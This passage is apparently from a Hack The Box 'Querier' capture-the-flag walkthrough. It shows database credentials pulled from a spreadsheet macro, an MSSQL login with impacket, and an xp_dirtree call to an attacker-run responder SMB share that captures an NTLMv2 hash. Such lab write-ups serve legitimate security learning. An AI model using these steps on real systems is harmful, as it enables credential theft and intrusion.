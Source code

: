 ```text
strings xl/vbaProject.bin
```

In the strings output it's clear this spreadsheet reaches out to a database as we see database credentials and other connection logic:

```text
Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c
```

It's safe to assume we can connect to the database we found during our initial port / service scan using these credentials. Let's use impacket's [mssqlclient.py][4] script as our SQL client / shell:

```text
~/ctf/htb/querier/xlsm/xl λ python /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth  
 -debug -db volume QUERIER/reporting@10.10.10.125
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

## Credential Harvesting

The credentials we found worked. We quickly find out we don't have many privileges and cannot run the infamous "xp_cmdshell" to execute commands as the "reporting" user, so we'll have to find another way to the user flag. There's a commonly used method of obtaining NTLM hashes using dirtree and responder, let's try that. First we'll setup our responder listener on our attacking machine:

```text
~/ctf/htb/querier λ sudo responder -I tun0
[+] Listening for events..
```

Responder is now listening for SMB connection attempts among many other things. Next, let's execute the dirtree command from the SQL prompt. This will attempt to connect to our fake SMB share that responder is serving on our attacking machine:

```text
SQL> EXEC MASTER.sys.xp_dirtree '\\10.10.33.33\fakeshare'
```

Responder tricks the victim machine into thinking it's a valid SMB share, therefore as part of the SMB connection it sends the NTLMv2 hash of the user account running the MSSQL service we're executing the dirtree command as. Back on our responder listener command prompt, we get the request with the NTLMv2 hash:


[1]: https://www.hackthebox.eu/home/users/profile/2570
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu
[4]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py
[5]: https://github.com/PowerShellMafia/PowerSploit
[6]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py